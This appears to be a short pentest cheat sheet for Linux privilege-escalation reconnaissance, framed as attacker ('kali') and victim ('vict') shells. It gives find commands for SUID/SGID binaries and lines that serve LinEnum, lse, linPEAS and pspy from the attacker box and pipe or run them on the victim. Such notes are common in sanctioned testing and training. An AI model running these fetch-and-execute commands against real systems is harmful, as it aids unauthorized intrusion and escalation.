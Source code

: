 

### Linux


#### Recon

Find and list all files newer than `2020-03-16` and not newer than `2020-03-17`:

```
user@vict:$ find / -type f -readable -newermt '2020-03-16' ! -newermt '2020-03-17' -ls 2>/dev/null
```

Find SUID binaries:

```
# User
find / -type f -perm /4000 -ls 2>/dev/null
# Group
find / -type f -perm /2000 -ls 2>/dev/null
# Both
find / -type f -perm /6000 -ls 2>/dev/null
```

##### Tools

`LinEnum.sh`:

```
root@kali:$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/LinEnum.sh -qO- |bash
```

`lse.sh`:

```
root@kali:$ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/lse.sh -qO- |bash
```

`linPEAS.sh` (linPEAS):

```
root@kali:$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/linpeas.sh -qO- |sh
```

`pspy`:

```
root@kali:$ wget [1] && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/pspy -qO /dev/shm/pspy && cd /dev/shm && chmod +x pspy
user@vict:$ ./pspy
```

1. [github.com/DominicBreuker/pspy/releases](https://github.com/DominicBreuker/pspy/releases)



[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)